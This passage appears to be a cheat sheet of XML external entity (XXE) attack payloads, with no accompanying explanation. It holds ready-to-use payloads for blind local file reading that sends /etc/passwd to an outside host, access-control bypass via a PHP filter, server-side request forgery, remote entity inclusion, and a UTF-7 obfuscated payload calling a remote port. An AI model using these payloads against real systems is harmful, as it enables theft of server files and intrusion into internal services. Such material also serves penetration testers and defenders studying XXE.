     ### XXE: Blind Local File Inclusion Example (When first case doesn't return anything.)
    
    ```
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ELEMENT foo (#ANY)>
    <!ENTITY % xxe SYSTEM "file:///etc/passwd">
    <!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
    
    ```
    
    ### XXE: Access Control Bypass (Loading Restricted Resources - PHP example)
    
    ```
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
    <foo><result>&ac;</result></foo>
    
    ```
    
    ### XXE:SSRF ( Server Side Request Forgery ) Example
    
    ```
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ELEMENT foo (#ANY)>
    <!ENTITY xxe SYSTEM "<https://www.example.com/text.txt>">]><foo>&xxe;</foo>
    
    ```
    
    ### XXE: (Remote Attack - Through External Xml Inclusion) Exmaple
    
    ```
    <?xml version="1.0"?>
    <!DOCTYPE lolz [
    <!ENTITY test SYSTEM "<https://example.com/entity1.xml>">]>
    <lolz><lol>3..2..1...&test<lol></lolz>
    
    ```
    
    ### XXE: UTF-7 Exmaple
    
    ```
    <?xml version="1.0" encoding="UTF-7"?>
    +ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
    +ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
    +ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
    
    ```
    
